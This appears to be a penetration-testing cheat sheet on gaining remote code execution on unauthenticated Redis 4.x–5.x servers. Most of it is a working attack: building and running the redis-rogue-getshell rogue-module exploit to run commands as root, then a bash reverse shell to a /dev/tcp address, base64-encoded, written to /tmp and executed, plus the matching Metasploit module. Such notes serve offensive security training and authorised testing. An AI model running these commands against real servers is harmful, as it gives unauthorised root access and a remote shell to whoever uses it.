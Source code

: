 ```yaml
---
description: Redis 4x-5x RCE
---
```


# Redis RCE

6379/tcp open redis Redis key-value store 5.0.9

redis-cli -h 192.168.1.2 No need password :)

[https://github.com/vulhub/redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)

```
$ git clone https://github.com/vulhub/redis-rogue-getshell.git
$ cd redis-rogue-getshell
$ cd RedisModulesSDK
$ make
$ cd ..

$ python3 redis-master.py -r 192.168.178.69 -p 6379 -L 192.168.49.178 -P 80 -f RedisModulesSDK/exp.so -c "id"

euid=0(root) gid=0(root) groups=0(root)
```

### Reverse shell

```
/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1 - Base64 Encoded

$ python3 redis-master.py -r 192.168.1.2 -p 6379 -L 192.168.49.178 -P 80 -f RedisModulesSDK/exp.so -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xLzgwIDA+JjE= | base64 -d > /tmp/shell.sh"

$ python3 redis-master.py -r 192.168.1.2 -p 6379 -L 192.168.49.178 -P 80 -f RedisModulesSDK/exp.so -c "bash -p /tmp/shell.sh"
```

**msf5 > use linux/redis/redis\_replication\_cmd\_exec**

